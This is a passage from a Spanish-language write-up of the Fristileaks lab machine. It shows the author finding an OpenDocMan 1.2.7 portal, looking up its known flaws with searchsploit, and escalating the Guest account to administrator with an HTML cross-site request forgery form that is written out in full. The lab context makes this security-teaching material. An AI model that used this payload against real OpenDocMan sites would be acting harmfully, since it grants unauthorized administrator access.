 Encuentran varias cosas pero la mayoría estan puestas ahí para hacernos perder el tiempo. Así que como me recibe un portal de una aplicación web llamada ``OpenDocman`` con número de versión y todo decido buscar dentro de **searchsploit**:

---

![img]({{ '/assets/images/Fristileaks/opendocman_00.png' | relative_url }}){: .center-image }*(Portal de login)*

---

>**``searchsploit docman 1.2.7``**

---

```console
----------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                               |  Path
                                                                             | (/usr/share/exploitdb/)
----------------------------------------------------------------------------- ----------------------------------------
OpenDocMan 1.2.7 - Multiple Vulnerabilities                                  | exploits/php/webapps/32075.txt
----------------------------------------------------------------------------- ----------------------------------------
```
---

Buenisimo, existen dos vulnerabilidades que nos pueden servir. El primer método que use fue el que consiste en subir un ``html`` con el siguiente contenido:

```html
<form action="http://10.0.0.123/jabcd0cs/signup.php" method="post" name="main">
<input type="hidden" name="updateuser" value="1">
<input type="hidden" name="admin" value="1">
<input type="hidden" name="id" value="2">
<input type="submit" name="login" value="Run">
</form>
```

Este código una vez ejecutado le otorga privilegios de admin al usuario logueado que en este caso es llama **Guest**:

---

![img]({{ '/assets/images/Fristileaks/opendocman_01.png' | relative_url }}){: .center-image }*(Usuario logueado)*

---

![img]({{ '/assets/images/Fristileaks/opendocman_04.png' | relative_url }}){: .center-image }*(Upload de archivo)*

---

Una vez que se sube el archivo el portal da la opción de visualizarlo, al hacerlo hay un botón llamado **RUN** y al correrlo se presenta un error pero si se accede a la configuración del usuario **Guest** se puede ver que ya es administrador del sitio.

